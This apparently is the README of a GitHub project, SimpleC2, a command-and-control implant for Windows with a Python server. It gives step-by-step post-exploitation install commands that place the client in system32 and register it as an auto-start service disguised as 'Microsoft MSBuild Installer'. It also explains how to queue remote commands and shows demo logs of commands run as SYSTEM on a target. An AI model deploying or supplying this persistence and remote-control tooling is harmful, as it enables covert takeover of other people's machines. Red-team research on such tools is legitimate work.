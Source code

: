 # SimpleC2

SimpleC2 is a command and control composed of a server written in Python and a client written in C# for the Windows hosts.
The client is installed to maintain persistence after the exploitation phase (Post-Exploitation).
The executable is a Windows Service. The structure is the classic client - server

We start the server with the command
```
python3 server.py  
```
Inside the server we can establish on which addresses binding and on which TCP port. 
We can also establish the password for the AES encryption.

The password is sent to the client (target) every time. This also allows you to implement randomness
passwords for each transmission.

The target connects every 15 seconds (modifiable) looking for the path /1. If the cmd.txt file is present in the local folder, it comes
executed the written command.

For example to insert a command within the local server folder:
```
echo net user > cmd.txt
echo dir c:\\ > cmd.txt
.... 
```
This also allows you to deposit the command from a remote machine. At the end of the execution, the server delete the file
containing the command.


To install the client (post exploitation case -> admin privilege)

- Edit the server or the redirector IP, the TCP port and the beaconing time

- compile source code with visual studio (2022) in release mode

- copy exe file in c:\windows\system32 
```
ex. copy .\MsBuildInstaller.exe c:\windows\system32\MsBuildInstaller.exe)
```

- Create the service as persistence
```
sc create MsBuildInstaller binpath="c:\windows\system32\MsBuildInstaller.exe" DisplayName="Microsoft MSBuild Installer" start=Auto)
```
  
- run service 
```
sc start MsBuildInstaller
```

Demo server python

└─$ python3 server.py                                               
```
C2 on 0.0.0.0 port 8081 (http://0.0.0.0:8081)
10.0.2.27 - - [24/Oct/2024 13:28:52] "GET /1 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:29:07] "GET /1 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:29:22] "GET /1 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:29:37] "GET /1 HTTP/1.1" 200 -

10.0.2.27 - - [24/Oct/2024 13:36:15] "GET /1 HTTP/1.1" 200 - 
====================================================
 Il volume nell'unit… C non ha etichetta.
 Numero di serie del volume: FCFA-9FC8

 Directory di c:\

23/10/2024  23:37             5.333 log.txt
07/12/2019  11:14    <DIR>          PerfLogs
23/10/2024  18:06    <DIR>          Program Files
04/12/2023  04:53    <DIR>          Program Files (x86)
23/10/2024  17:49    <DIR>          Users
23/10/2024  22:32    <DIR>          Windows
               1 File          5.333 byte
               5 Directory  21.644.783.616 byte disponibili

====================================================
10.0.2.27 - - [24/Oct/2024 13:36:16] "POST /2 HTTP/1.1" 200 -
10.0.2.27 - - [24/Oct/2024 13:36:30] "GET /1 HTTP/1.1" 200 - 
====================================================
nt authority\system

====================================================
10.0.2.27 - - [24/Oct/2024 13:36:31] "POST /2 HTTP/1.1" 200 -
```
